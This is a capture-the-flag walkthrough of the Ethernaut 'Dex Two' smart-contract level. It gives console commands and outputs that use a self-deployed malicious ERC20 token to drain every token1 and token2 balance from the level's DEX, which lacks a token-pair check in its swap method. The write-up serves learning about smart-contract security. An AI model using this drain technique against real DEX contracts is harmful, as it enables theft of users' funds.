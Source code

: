 # Dex Two

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

## Things that might help:

How has the swap method been modified?
=> No require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
It means we can pair any tokens,not need to be token1/token2
Could you use a custom token contract in your attack?
=> See [malToken.sol](malToken.sol)

```javascript
token1 = await contract.token1()
> '0xab26e4E7Ec92d25a85487dB5c39d96195f1af718'
token2 = await contract.token2()
> '0x47D53D75825b8Cfa96fF947e5F567A7fFb22F300'
contract.address
> '0xd922a8B3FFCf9166cFdED9469d958218f7E34454'
```
Deploy MaliciousToken contract and approve Dex contract as spender in Remix
MaliciousToken.approve('0xd922a8B3FFCf9166cFdED9469d958218f7E34454',10000000)

Transfer 100 to DEX Two to create liquidity and conduct the same swap to withdraw the remaining tokens of DEX Two to be successful.But in this example, we transfer 200 MAL to test.

Drain all token1 from contract (we need swap amount return 100 because has 100 token1 in contract)
```javascript
let MAL = '0x51789c75256E68b5A80233c9Fc4477649990960C'
await contract.add_liquidity(MAL,200)
await contract.get_swap_amount(MAL,token1, 200).then(x=>x.toNumber())
> 100
await contract.swap(MAL, token1, 200);
await contract.balanceOf(token1, contract.address).then(x=>x.toNumber())
> 0
```
Drain all token2 from contract (we need swap amount return 100 because has 100 token2 in contract)
```javascript
await contract.balanceOf(MAL, contract.address).then(x=>x.toNumber())
> 400
await contract.get_swap_amount(MAL,token2, 400).then(x=>x.toNumber())
> 100
await contract.swap(MAL, token2, 400);
await contract.balanceOf(token2, contract.address).then(x=>x.toNumber())
> 0
```

Level completed!
Difficulty 4/10

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.